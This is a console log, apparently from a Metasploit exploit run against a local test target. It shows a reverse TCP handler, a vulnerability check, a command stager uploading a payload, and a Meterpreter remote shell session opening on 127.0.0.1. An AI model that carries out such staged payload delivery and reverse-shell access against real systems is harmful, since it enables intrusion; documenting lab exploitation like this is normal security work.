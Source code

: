 ```
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. And confirmed target method exists.
[*] Command Stager progress -   2.05% done (2046/99626 bytes)
[*] Command Stager progress -   4.11% done (4092/99626 bytes)
[*] Command Stager progress -   6.16% done (6138/99626 bytes)
[*] Command Stager progress -   8.21% done (8184/99626 bytes)
[*] Command Stager progress -  10.27% done (10230/99626 bytes)
[*] Command Stager progress -  12.32% done (12276/99626 bytes)
[*] Command Stager progress -  14.38% done (14322/99626 bytes)
[*] Command Stager progress -  16.43% done (16368/99626 bytes)
[*] Command Stager progress -  18.48% done (18414/99626 bytes)
[*] Command Stager progress -  20.54% done (20460/99626 bytes)
[*] Command Stager progress -  22.59% done (22506/99626 bytes)
[*] Command Stager progress -  24.64% done (24552/99626 bytes)
[*] Command Stager progress -  26.70% done (26598/99626 bytes)
[*] Command Stager progress -  28.75% done (28644/99626 bytes)
[*] Command Stager progress -  30.81% done (30690/99626 bytes)
[*] Command Stager progress -  32.86% done (32736/99626 bytes)
[*] Command Stager progress -  34.91% done (34782/99626 bytes)
[*] Command Stager progress -  36.97% done (36828/99626 bytes)
[*] Command Stager progress -  39.02% done (38874/99626 bytes)
[*] Command Stager progress -  41.07% done (40920/99626 bytes)
[*] Command Stager progress -  43.13% done (42966/99626 bytes)
[*] Command Stager progress -  45.18% done (45012/99626 bytes)
[*] Command Stager progress -  47.23% done (47058/99626 bytes)
[*] Command Stager progress -  49.29% done (49104/99626 bytes)
[*] Command Stager progress -  51.34% done (51150/99626 bytes)
[*] Command Stager progress -  53.40% done (53196/99626 bytes)
[*] Command Stager progress -  55.45% done (55242/99626 bytes)
[*] Command Stager progress -  57.50% done (57288/99626 bytes)
[*] Command Stager progress -  59.56% done (59334/99626 bytes)
[*] Command Stager progress -  61.61% done (61380/99626 bytes)
[*] Command Stager progress -  63.66% done (63426/99626 bytes)
[*] Command Stager progress -  65.72% done (65472/99626 bytes)
[*] Command Stager progress -  67.77% done (67518/99626 bytes)
[*] Command Stager progress -  69.83% done (69564/99626 bytes)
[*] Command Stager progress -  71.88% done (71610/99626 bytes)
[*] Command Stager progress -  73.93% done (73656/99626 bytes)
[*] Command Stager progress -  75.99% done (75702/99626 bytes)
[*] Command Stager progress -  78.04% done (77748/99626 bytes)
[*] Command Stager progress -  80.09% done (79794/99626 bytes)
[*] Command Stager progress -  82.15% done (81840/99626 bytes)
[*] Command Stager progress -  84.20% done (83886/99626 bytes)
[*] Command Stager progress -  86.25% done (85932/99626 bytes)
[*] Command Stager progress -  88.31% done (87978/99626 bytes)
[*] Command Stager progress -  90.36% done (90024/99626 bytes)
[*] Command Stager progress -  92.42% done (92070/99626 bytes)
[*] Command Stager progress -  94.47% done (94116/99626 bytes)
[*] Command Stager progress -  96.52% done (96162/99626 bytes)
[*] Command Stager progress -  98.58% done (98208/99626 bytes)
[*] Sending stage (175686 bytes) to 127.0.0.1
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Meterpreter session 3 opened (127.0.0.1:4444 -> 127.0.0.1:51919) at 2023-10-28 01:34:30 +0800

meterpreter >
```
